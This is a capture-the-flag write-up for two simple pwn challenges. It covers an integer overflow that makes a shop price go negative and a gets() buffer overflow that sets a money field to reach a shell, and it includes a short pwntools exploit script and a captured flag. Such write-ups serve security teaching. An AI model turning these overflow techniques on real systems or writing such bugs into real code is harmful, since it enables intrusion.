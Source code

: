 # Pwn
## Flag Shopping
source:
```c {hl_lines=8}
printf("How many do you need?\n> ");
scanf("%lld", &num);
if (num < 1){
    printf("invalid number\n");
    continue;
}

if (money < price[option]*(int)num){
    printf("You only have %d, ", money);
    printf("But it cost %d * %d = %d\n", price[option], (int)num, price[option]*(int)num);
    continue;
}

money -= price[option]*(int)num;
own[option] += num;
```
even though we cant input a negative number, we can still overflow `price[option]*(int)num` to make it go negative
```text
            Welcome to the FLAG SHOP!!!
===================================================

Which one would you like? (enter the serial number)
1. Coffee
2. Tea
3. Flag
> 3
How many do you need?
> 18
THJCC{W0w_U_R_G0oD_at_SHoPplng}
```

## Money Overflow
```c {hl_lines=16}
struct
{
    int id;
    char name[20];
    unsigned short money;
} customer;
//...
        case 5:
            if (customer.money >= 65535)
            {
                system("/bin/sh");
                exit(0);
            }
//...
    printf("Enter your name: ");
    gets(customer.name);
```
`gets` doesnt check for input length, so we can buffer overflow into money
a short has 2 bytes, so we'll overwrite money w/ `0xFFFF`
```py
from pwn import *

r = remote('chal.ctf.scint.org', 10001)
r.sendlineafter(b':', b'A' * 20 + b'\xFF\xFF')
```